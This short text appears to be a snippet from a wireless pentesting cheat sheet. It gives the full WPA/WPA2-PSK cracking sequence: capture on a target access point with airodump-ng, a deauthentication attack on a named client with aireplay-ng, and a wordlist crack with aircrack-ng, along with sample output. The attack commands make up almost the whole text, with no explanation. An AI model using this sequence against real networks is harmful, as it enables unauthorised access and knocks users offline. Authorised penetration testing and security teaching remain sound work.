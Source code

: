 * https://github.com/V0lk3n/WirelessPentesting-CheatSheet?tab=readme-ov-file#cracking-wpawpa2-psk

```bash
sudo airodump-ng wlan0mon -c 6 -w wifi-mobile --bssid F0:9F:C2:71:22:12

sudo aireplay-ng -0 1 -a F0:9F:C2:71:22:12 -c 28:6C:07:6F:F9:44 wlan0mon
20:01:28  Waiting for beacon frame (BSSID: F0:9F:C2:71:22:12) on channel 6
20:01:29  Sending 64 directed DeAuth (code 7). STMAC: [28:6C:07:6F:F9:44] [ 0| 0 ACKs]

aircrack-ng wifi-mobile-01.cap -w /usr/share/wordlists/rockyou.txt
Reading packets, please wait...
Opening wifi-mobile-01.cap
Read 346 packets.
```